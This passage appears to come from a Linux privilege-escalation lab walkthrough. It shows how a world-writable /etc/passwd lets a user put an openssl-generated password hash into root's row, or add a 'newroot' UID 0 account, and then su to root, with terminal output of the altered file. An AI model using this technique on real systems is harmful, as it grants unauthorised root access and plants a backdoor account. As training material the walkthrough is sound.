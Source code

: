 `openssl passwd newpasswordhere`

Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

`su root`

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

Now switch to the newroot user, using the new password:

`su newroot`

**Remember to exit out of the root shell before continuing!**

```
user@debian:~/tools/mysql-udf$ openssl passwd newpasswordhere
Warning: truncating password to 8 characters
auXs47FeobsN.
user@debian:~/tools/mysql-udf$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~/tools/mysql-udf$
```

```
user@debian:~/tools/mysql-udf$ cat /etc/passwd
root:auXs47FeobsN.:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
statd:x:103:65534::/var/lib/nfs:/bin/false
mysql:x:104:106:MySQL Server,,,:/var/lib/mysql:/bin/false
```
